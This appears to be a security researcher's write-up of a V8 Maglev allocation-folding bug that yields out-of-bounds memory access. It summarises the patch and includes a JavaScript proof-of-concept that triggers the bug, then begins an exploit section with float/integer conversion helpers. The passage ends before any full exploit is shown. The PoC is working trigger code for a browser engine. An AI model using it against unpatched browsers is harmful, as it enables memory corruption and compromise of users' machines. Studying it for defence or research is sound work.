 ## Patch
To address this vulnerability, the developers implemented the following changes:

- **Invoke `ClearCurrentRawAllocation`**: This function sets `current_raw_allocation` to `null`, ensuring that both allocations occur without the risk of being folded across a garbage collection (GC) run. This change prevents the out-of-bounds access that was causing the vulnerability.

- **Securing WASM Instances**: The WASM instance has been moved into a trusted zone. Developers are actively working to eliminate any unsafe pointers associated with this instance, enhancing the security of the overall system.

## poc:
```js
// Direct from the Exodus Blog (mentioned below).
function main() {
    class ClassParent {}
    class ClassBug extends ClassParent {
        constructor() {
            const v24 = new new.target();               // makes the checkvalue of the parent class to be constant with this call.
            super();                                    // Creates the instance of `this` object and allocates the memory required for storing infor for this object.
            let a = [9.9,9.9,9.9,1.1,1.1,1.1,1.1,1.1];  // After triggering the GC in the wrong folded allocation this gets allocated, which gives us OOB
        }
        [1000] = 8; // trigger the GC
    }
    // triggering the maglev optimizer.
    for (let i = 0; i < 300; i++) {
        Reflect.construct(ClassBug, [], ClassParent);
    }
}
%NeverOptimizeFunction(main);
main();
```

## My exploit:

Some Basic utilities to make my exploitation phase easier: (includes float to int and vice-versa, trigger GC with the help of huge allcoations).
```js
///////////////////////////////////////////////////////////////////////
///////////////////         Utility Functions       ///////////////////
///////////////////////////////////////////////////////////////////////

let hex = (val) => '0x' + val.toString(16);

// 8 byte array buffer
const __buf = new ArrayBuffer(8);
const __f64_buf = new Float64Array(__buf);
const __u32_buf = new Uint32Array(__buf);

// typeof(val) = float
function ftoi(val) {
    __f64_buf[0] = val;
    return BigInt(__u32_buf[0]) + (BigInt(__u32_buf[1]) << 32n); // Watch for little endianness
}

function print(x){
    console.log("[+] " + x);
}

// typeof(val) = BigInt
```